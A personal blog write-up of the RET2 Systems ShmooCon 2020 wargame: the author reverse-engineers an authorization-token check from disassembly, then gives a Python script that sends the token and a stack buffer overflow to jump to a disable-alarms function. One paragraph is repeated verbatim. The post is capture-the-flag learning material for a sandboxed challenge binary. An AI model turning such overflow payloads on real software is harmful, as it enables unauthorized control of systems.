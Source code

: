 ```yaml
---
title: "Binex at ShmooCon"
date: 2020-04-30T17:05:44-04:00
draft: false
showToc: true
description: "Ret2Systems Binary Exploitation Challenge"
tags: ["binex"]
---
```

<!-- ---
layout: post
title: Binex at ShmooCon
subtitle: My first exposure to binary exploitation
image: /schmoocon/pictures/scenario.png
tags: binex
--- -->


At ShmooCon 2020, RET2 Systems was hosting a [challenge](https://wargames.ret2.systems/level/shmoo2020) where they had prototype waterbottles held within a laser system with alarms, run off of a Raspberry Pi. The goal was to access the Raspberry Pi, disable the lasers and alarms, all within their provided Wargames environment. 

![](/schmoocon/pictures/assets.png)

Provided with the disassembly, data, source, and python script to run an interactive response, you were left to your own devices to figure out a way to run 

---
## Dawn of the first day
Pretty much busy the day we got to ShmooCon, so I didn't do much with the challenge. I did, however, look at the disassembly, and then noped out because I had never done disassembly (a mistake on my part)


---
## Dawn of the second day
I was strongly against starting my journey into binary exploitation, but because my teammates flatearth and kimpossible had solved the challenge, I thought "if they can do it, i can too."

The day started off with 25 water bottles left, it seemed reasonable that I would find my way to getting one. 

The code provided had recommended that we look into the function `validate_authorization_token`, so I set a breakpoint at that function

```
break validate_authorization_token
```
---
## Analyzing the first jump
```
Function validate_authorization_token
400b1d:  push    rbp
400b1e:  mov     rbp, rsp
400b21:  push    rbx
400b22:  sub     rsp, 0x28
400b26:  mov     qword [rbp-0x28], rdi
400b2a:  mov     qword [rbp-0x30], rsi
400b2e:  mov     rax, qword [rbp-0x28]
400b32:  mov     esi, 0x11
400b37:  mov     rdi, rax
400b3a:  call    strnlen
400b3f:  cmp     rax, 0x11
400b43:  je      0x400b4f
```

Before the first jump function, I saw the following code: 
```
400b3a:  call    strnlen
400b3f:  cmp     rax, 0x11
```
The disassembly was showing that the code was comparing the length of the string stored into rax (the authorization code that we would eventually generate), to the hex code of 0x11 (17 in decimal). If true, then the next step would be to follow the jump instruction, `400b43:  je      0x400b4f`.

I made an authorization token of `00000000000000000`, 17 "0's" just to return true for the compare length function to jump to the next function.


---
## Analyzing the second jump
```
400b4f:  mov     rax, qword [rbp-0x28]
400b53:  add     rax, 0x4
400b57:  movzx   eax, byte [rax]
400b5a:  cmp     al, 0x2d
400b5c:  je      0x400b68
```
The first thing I saw was the compare function at `0x400b5a`, that would compare info stored in register al with 0x2d, hex for "-". 

Starting from the beginning, you see that the quad word stored at rbp-0x28 is stored into rax. After being stored into rax, the byte is shifted by 0x4? The byte[rax] is stored into eax, which then the register al is compared to 0x2d ("-" in decimal). This being said, it was seeing if the 4th (0,1,2,3,4) integer was tac, so I changed my authorization token to 0000-000000000000, stepped through the program, and successfully jumped to the next function. 
**In all honesty, this was mostly seeing the 4th integer being compared to tac, and then changing my authorization token and looking at the register to see if al was 0x2d.**


---
## Analyzing the third jump
```
400b68:  mov     rax, qword [rbp-0x28]
400b6c:  mov     esi, 0x4
400b71:  mov     rdi, rax
400b74:  call    xorsum
400b79:  mov     ebx, eax
400b7b:  mov     rax, qword [rbp-0x30]
400b7f:  mov     esi, 0x9
400b84:  mov     rdi, rax
400b87:  call    xorsum
400b8c:  cmp     bl, al
400b8e:  je      0x400b9a
```

### *Disclaimer*
*This section is extremely non-scientific, with me testing random numbers and looking at the registers.*

The disassembly was comparing the two registers "al" and "bl", which was the first two characters and last two characters of the first half of the authorization token. Instead of analyzing this section, I decided to input random numbers for the first four of the auth token and look at the registers of al and bl to see if they were being xorsum'd correctly. Again, not the best way to do this.

I was left with `1110-` as the first half of my auth token.

---
## Analyzing the back half of the auth token
With the first portion until the tac of the auth token solved correctly, I had the entire 12 back characters to figure out. Luckily, the RET2 team had left a little something for us at `0x400c0d`, where the disassembly outright says `400c0d:  mov     esi, 0x401023  "ret2 systems"`. ret2 systems = 12 characters. Coincidence? I thought not. Instead of looking into whatever voodoo magic the rest of the assembly code was performing, I restarted my program, entered the first 5 of my auth token, and added "ret2 systems" to the end.

My thought process here, was if they are comparing the back half to ret2 systems, I should enter ret2 systems to retrieve whatever the program is expecting to become ret2 systems. It surprisingly worked. After stepping through the looped assembly three times, before the program jumps to the next address I inspected the registers and came across 0x00603015 stored into rbp-0x28. It looked familiar (I forgot from where) and so I used `x /4x 0x00603015` to display 4 bytes of information stored at that address, and it returned a bunch of hex. 

0x00603015 - the address that held the string "ret2 systems" after it had been XOR'd to provide the back half of the authorization token

Keep in mind that the hex returned by the program is displayed in little endian, where the information is stored from left into bottom and right into top, per byte. The returned information was 3 bytes, so I had to reassemble from little endian into a normal readable format. `\x89\xbb\x69\x2b\xdb\xad\x64\x6a\x8f\xbb\x70\x6a` is what I ended up with as the back half of my auth token.Keep in mind that the hex returned by the program is displayed in little endian, where the information is stored from left into bottom and right into top, per byte. The returned information was 3 bytes, so I had to reassemble from little endian into a normal readable format. `\x89\xbb\x69\x2b\xdb\xad\x64\x6a\x8f\xbb\x70\x6a` is what I ended up with as the back half of my auth token.

And voila, we now had a full auth token.

---
## Disabling the systems
After deleting my breakpoints, I could now enter as my auth token through the provided python script. The system now authenticates us as a laser technician, and allows us to disable the lasers by entering `disable-systems` which would only disable the lasers, while we wanted to disable both the lasers and alarms. 


`0x400c4e` was a memory address that provided the function to disable the alarms, and I had no idea how to access it. The next step provided a way to access it.

---
## *Whydoesthishateme*
Unfortunately, my account was reloaded and all of my code was lost.

*Sigh*

Thankfully, I managed to rerun all the steps I took in order to gain an authorization token, and I had a plan to disable the alarm system this time.

With 3 water bottles left, I accessed the debugger and found my authorization token (which had changed), logged in, and wrote a python script to memory overflow the program and jump to the address of the disable_alarms function. Everything worked fine until I reached the point of utilizing the overflow to point the program towards `400c4e`, where it started to show (I inspected the rax register to see the overflow) hex 0x0a, which is \n in decimal. To correct this error, I added 0's to the back of my pointer to clear that newline, and it worked. In another world, I would have utilized the p64 to pack `0x400c4e` into an 8 byte representation and added that to the back of my overflow. 


Below is the python script that I used to solve the problem.
```
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
data = p.readuntil('\n')

p.sendline('1110-' +'\x89\xbb\x69\x2b\xdb\xad\x64\x6a\x8f\xbb\x70\x6a')
p.readuntil('\n')
p.sendline('disable-system')
p.readuntil('\n')
p.sendline('because i wanted to')
p.readuntil('\n')
p.sendline('disable-system')
p.readuntil('\n')

p.sendline('0'*227+ '\x4e\x0c\x40' +'\x00')
p.interactive()
```

It worked perfectly, yet I had missed the chance to get a ret2 systems waterbottle. Kudos to Xasmatwn1 for getting it, and thank you to ret2 systems for hosting this challenge and providing an environment for me to learn.